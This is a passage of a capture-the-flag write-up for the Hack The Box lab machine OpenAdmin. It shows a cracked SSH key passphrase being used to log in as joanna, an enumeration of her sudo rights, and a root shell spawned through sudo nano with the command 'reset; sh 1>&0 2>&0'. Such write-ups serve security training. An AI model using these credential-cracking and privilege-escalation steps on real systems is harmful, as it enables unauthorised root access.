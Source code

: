 	Cost 2 (iteration count) is 1 for all loaded hashes
	Will run 2 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	bloodninjas      (id_rsa)
	```
4. SSH w/ `id_rsa` & `bloodninjas`
	```
	┌──(root💀kali)-[~/htb/OpenAdmin/10.10.10.171/loot]
	└─# sshpass -P "Enter passphrase" -p 'bloodninjas' ssh joanna@openadmin.htb -i id_rsa
	Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	  System information as of Sun Sep 25 18:11:28 UTC 2022
	
	  System load:  0.0               Processes:             232
	  Usage of /:   33.8% of 7.81GB   Users logged in:       1
	  Memory usage: 23%               IP address for ens160: 10.10.10.171
	  Swap usage:   0%
	
	
	 * Canonical Livepatch is available for installation.
	   - Reduce system reboots and improve kernel security. Activate at:
	     https://ubuntu.com/livepatch
	
	39 packages can be updated.
	11 updates are security updates.
	
	Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
	
	
	Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
	```


##  Root - Enumeration
1. Check `joanna`'s sudo access
	```
	joanna@openadmin:~$ sudo -l
	Matching Defaults entries for joanna on openadmin:
	    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
	
	User joanna may run the following commands on openadmin:
	    (ALL) NOPASSWD: /bin/nano /opt/priv
	```
	- `/bin/nano` - has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/nano/#sudo)



## Root - SUID/SUDO GTFOBINS
1. How do we exploit `nano`
	- If the `nano` is allowed to run as superuser by `sudo`, it does not drop the elevated privileges
	- We are able to spawn a `root` shell w/ `nano` shortcuts
2. Exploit `nano`
	1. Execute `sudo /bin/nano /opt/priv` 
	2. Type this
		```
		CTRL+R, CTRL+X 
		# Type
		reset; sh 1>&0 2>&0
		```